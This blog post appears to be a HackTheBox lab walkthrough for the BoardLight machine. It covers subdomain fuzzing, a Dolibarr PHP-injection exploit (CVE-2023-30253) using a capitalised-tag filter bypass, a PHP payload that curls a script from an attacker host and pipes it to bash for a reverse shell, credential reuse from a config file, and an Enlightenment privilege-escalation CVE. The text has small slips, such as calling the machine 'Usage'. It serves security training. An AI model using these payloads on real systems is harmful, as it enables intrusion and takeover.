+++ 
draft = false
date = 2024-06-04T13:07:16+01:00
title = "BoardLight HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Subdomain Discovery","ffuf","Dollibarr","Find","Grep","CVE-2023-30253","CVE-2022-37706"]
categories = []
externalLink = ""
series = []
+++


[comment]: <> (Insertar imagen de la carátula de la máquina)


The Usage HTB machine is a madium difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

    - Grep / Find
    - Subdomain discovery with ffuf
    - CVE-2023-30253
    - CVE-2022-37706

## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.11 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:



It looks like ports 20 and 80 are open. Classic open ports for SSH and https. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80 10.10.11.11 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:



This is the page visible on port 80:



It doesn't appear to be anything interesting in this page. However, since we still dont know the hostname, we have some valuable information: the hostname might be board.htb, since there is an e-mail shown "info@board.htb".

Lets continue our enumeration, now trying to find existing subdomain. For this, we will use ffuf to fuzz for subdomains:

```sh
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -ic -t 200 -c -fs 15949,0
````


It is important to user the parameter -fs 15949, to filter out any false positives.



We have found a subdomain: crm.board.htb. We add it to /etc/hosts, and see what is there:



It looks like the dolibarr login page. 

## Initial access

After a quick search, we can find the default user/password for dolibarr, and we can log in.





Searching the web, there is an exploit for this version of dolibarr. It leverages the dynamic content interpretation of the webpages, allowing us to execute arbitrary commands. [Here](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main) are the complete instructions.

First, we create a new website, named test:



Then, we create a new page for the website:



And now, we can edit the HTML source and add our mallicious PHP code. 



The trick here is that we can bypass dollibar's protection against PHP code, by capitalizing our tag. Dolibarr blocks <?php> tags, but not <?Php> or <?pHP>... So we can now try to run a simple 2+2, to see if it interprets the code:





And it worked! 2+2=4.

Now, lets try to get a reverse shell. We can make a simple-hhtp-server, and serve a bash reverse shell script which will be curled and piped into bash and executed on the victim machine.

Here we set up the [simple-http-server](https://github.com/TheWaWaR/simple-http-server)



And we access the page to see if the shell.html is displayed properly.



Sweet! Now we just have to pipe it to the victim machine. This is the PHP payload:

```php
<?PHP system('curl http://10.10.14.86:8000/shell.html | bash');?>
```



Before clicking "save", be sure to have a netcat listener waiting for the reverse shell. And voilà, we have access to the user www-data.




## Lateral movement


Lets do some reconnaissance as user www-data. For this, we will be using linpeas, which can be downloaded from the attacker's machine via wget.

```sh
wget http://10.10.14.86:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas reports some interesting files:



By looking into the contents of /var/www/html/crm.board.htb/htdocs/conf, we fin the conf.php file, which contains DB_USER and DB_PASS. 



Linpeas also reported that another user, Larissa, has acces to a shell, so lets try the password on user larissa. Trying to log into ssh with user larissa and the password obtained earlier:

```sh
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```



Another way to find DB_USER and DB_PASS is by using grep:

```sh
grep -arin 'DB_USER\|DB_PASSWORD' |awk -F':' '{print $1}' | sort | uniq -c
```

## Privilege escalation

By running Linpeas again, it reports some interesting SUID binaries:



This SUID binaries can also be found using find:

```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```


The binaries are from the enlightenment linux window manager. There is a CVE related to this window manager, so lets try the [PoC of CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
) to see if this version of enlightenment is vulnerable to LPE.




And just like that, we can now cat out the root flag and the machine is pwned.

## Conclusion

Hacking through the BoardLight HTB machine provides valuable insights into penetration testing techniques, including enumeration, vulnerability exploitation, and privilege escalation. By understanding these steps, aspiring ethical hackers like me can enhance their skills and contribute positively to the cybersecurity landscape.
